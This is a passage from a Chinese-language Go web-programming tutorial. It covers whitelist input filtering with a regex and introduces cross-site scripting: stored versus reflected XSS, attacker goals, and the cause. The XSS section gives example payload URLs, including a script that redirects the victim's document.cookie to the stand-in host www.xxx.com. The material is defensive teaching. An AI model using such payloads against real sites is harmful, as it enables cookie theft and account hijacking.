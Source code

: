 上面的方法对于过滤一组已知的合法值的数据很有效，但是对于过滤有一组已知合法字符组成的数据时就没有什么帮助。例如，你可能需要一个用户名只能由字母及数字组成：
```Go

r.ParseForm()
username := r.Form.Get("username")
CleanMap := make(map[string]interface{}, 0)
if ok, _ := regexp.MatchString("^[a-zA-Z0-9]+$", username); ok {
	CleanMap["username"] = username
}

```
## 总结
数据过滤在Web安全中起到一个基石的作用，大多数的安全问题都是由于没有过滤数据和验证数据引起的，例如前面小节的CSRF攻击，以及接下来将要介绍的XSS攻击、SQL注入等都是没有认真地过滤数据引起的，因此我们需要特别重视这部分的内容。


# 9.3 避免XSS攻击
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

## 什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

	hello astaxie

如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

